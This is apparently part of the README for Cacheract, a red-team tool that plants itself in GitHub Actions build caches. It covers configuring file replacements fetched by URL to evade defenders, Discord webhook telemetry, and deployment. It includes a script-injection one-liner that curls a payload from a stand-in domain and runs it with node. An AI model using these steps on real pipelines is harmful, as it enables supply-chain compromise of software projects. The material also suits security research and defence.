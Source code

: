 8 -> Package on NPM contains obfuscated backdoor, which no trace of where the original source code came from.

#### Replacements Configuration

You can configure replacements by adding to the `Replacement[]` array in `src/config.js`. There are two ways to add a replacement. The first is a Base64 encoded string. This would be useful for smaller files like scripts or config files. The other replacement is a URL. Cacheract will make an HTTP GET request to
download the file and then write it out. This is useful if you have a larger file and do not want the Blue Team to see it. If the file is not present at the URL, then Cacheract will continue without writing out that file.

```ts
export const REPLACEMENTS: Replacement[] = [
    {
        FILE_PATH: "/home/runner/work/Cacheract/Cacheract/hacked.txt",
        FILE_CONTENT: "AAAAAA=="
    },
    {
        FILE_PATH: "/home/runner/work/Cacheract/Cacheract/README.md",
        FILE_URL: "https://raw.githubusercontent.com/AdnaneKhan/Gato-X/refs/heads/main/README.md"
    }
]
```

## Building

Cacheract is a Node.js application. Simply build it with `npm build`. Cacheract is roughly 1.4 MB in size. Cacheract does not include obfuscation, but you can add this if desired via a webpack plugin.

If you want to report telemetry, you should set the `DISCORD_WEBHOOK` value in the `src/config.ts` file _prior_ to building Cacheract.

```
git clone https://github.com/AdnaneKhan/Cacheract
npm build
```

## Deployment

Cacheract compiles to a single minified `bundle.js` that includes all dependencies. Any arbitrary code execution within a GitHub Actions pipeline can invoke Cacheract by running the bundled javascript file containing Cacheract and all of its dependencies.

```bash
node bundle.js
```

Cacheract handles the rest, including determining if the environment is suitable for implantation and automatically deploying itself into caches after validation.

In an Actions script injection scenario, you could use `$(curl -sSfL https://your-payload-domain.com > /tmp/run; node /tmp/run)` to deploy Cacheract. Note that Cacheract is only useful when deployed into main branch pipelines, otherwise it has no more value than running code as part of a Pwn Request.
